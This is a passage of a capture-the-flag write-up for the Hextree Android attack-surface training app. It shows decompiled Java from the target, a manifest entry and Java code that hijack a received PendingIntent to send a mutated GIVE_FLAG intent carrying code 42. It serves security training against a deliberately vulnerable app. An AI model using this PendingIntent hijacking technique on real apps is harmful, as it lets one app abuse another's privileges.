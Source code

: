 ```java
            intent3.addFlags(8);
            intent3.putExtra("pending_intent", activity);
            startActivity(intent3);
            return;
        }
        if (action.equals("io.hextree.attacksurface.GIVE_FLAG")) {
            if (intent.getIntExtra("code", -1) == 42) {
                this.f.addTag(42);
                success(this);
            } else {
                Toast.makeText(this, "Condition not met for flag", 0).show();
            }
        }
    }

```

First it looks for an intent and if `action` is empty it creates a pending intent with `intent2` as it's base with action `"io.hextree.attacksurface.GIVE_FLAG"` and a third intent with action `"io.hextree.attacksurface.MUTATE_ME"`, then it checks if received response has action `io.hextree.attacksurface.GIVE_FLAG`  or not and if so does it has an extra `code` with value 42 ?

#### Solution

create a class that will receive intent with the specified action `"io.hextree.attacksurface.MUTATE_ME"`
```xml
<activity  
    android:name=".pendingHelper"  
    android:exported="true" >  
    <intent-filter>        
	    <action android:name="io.hextree.attacksurface.MUTATE_ME"/>  
        <category android:name="android.intent.category.DEFAULT"/>  
    </intent-filter>
</activity>
```

Then when getting the intent we look for pending intent with name `pending_intent`, Then create an intent with action `"io.hextree.attacksurface.GIVE_FLAG"` and but extra `code` with value `42` and try to send it (you can ignore the condition it's for debugging to help )

```java
Intent receivedIntent = getIntent();  
if (receivedIntent.getParcelableExtra("pending_intent") != null) {  
    PendingIntent pendingIntent = receivedIntent.getParcelableExtra("pending_intent");  
  
    Intent intent = new Intent();  
    intent.setAction("io.hextree.attacksurface.GIVE_FLAG");  
    intent.putExtra("code", 42);  
  
  
    try {  
        pendingIntent.send(this, 0, intent);  
    } catch (PendingIntent.CanceledException e) {  
        throw new RuntimeException(e);  
    }  
}else{
	Log.d("Nothing","No pending intent recived" );
}
```
